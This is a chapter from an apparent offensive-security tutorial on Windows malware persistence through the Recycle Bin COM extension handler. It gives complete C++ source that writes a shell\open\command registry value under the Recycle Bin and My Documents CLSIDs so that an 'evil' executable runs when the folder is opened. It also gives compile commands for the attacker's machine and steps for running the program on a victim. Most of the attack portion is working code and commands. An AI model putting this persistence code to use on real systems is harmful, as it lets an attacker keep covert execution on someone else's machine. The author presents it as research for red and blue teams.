





\newpage
\subsection{87. malware development: persistence - part 21. Recycle Bin, My Documents COM extension handler. Simple C++ example.}

﷽

{width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via modifying Recycle Bin COM extension handling.     

### CLSID list

Certain special folders within the operating system are identified by unique strings:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - My Computer     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - My Documents     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - My Network Places     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Network Computers     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Printers and Faxes      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Recycle Bin       

Adding the `open\command` subkey to the CLSID and adding a new verb for the `shell` key will execute the value stored in the `\command` entry.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the logic is simple.    

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query 
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" 
/s
```

{width="80%"}    

Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

{width="80%"}    

As you can see, our "malware" works perfectly.    

At the next step, just compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Finally, run this persistence script at the victim's machine and check Registry again:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

{width="80%"}    

So, as you can see, subkey added and the key value is set.    

Then, try to open Recycle Bin:    

{width="80%"}    

{width="80%"}    

If we open `ProcessExplorer` and see properties of `hack.exe`:     

{width="80%"}    

we can notice that its parent process is `explorer.exe (1680)`.     

Perfect! =^..^=

### what about another CLSID from the list?    

I made a small change to the persistence script:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Compile and run at the victim's machine:      

```powershell
.\pers.exe
reg query 
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

{width="80%"}    

But... Not working for me at Windows 10 as they use that stupid Start Menu, I can't find `My Documents` folder on the Desktop feature.    

I also try to do this trick with another CLSID at the `Windows 7 x86` machine. It works for `My Computer` folder.     

{width="80%"}    

{width="80%"}    

I don’t know if any APT groups or malware family applies this trick.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
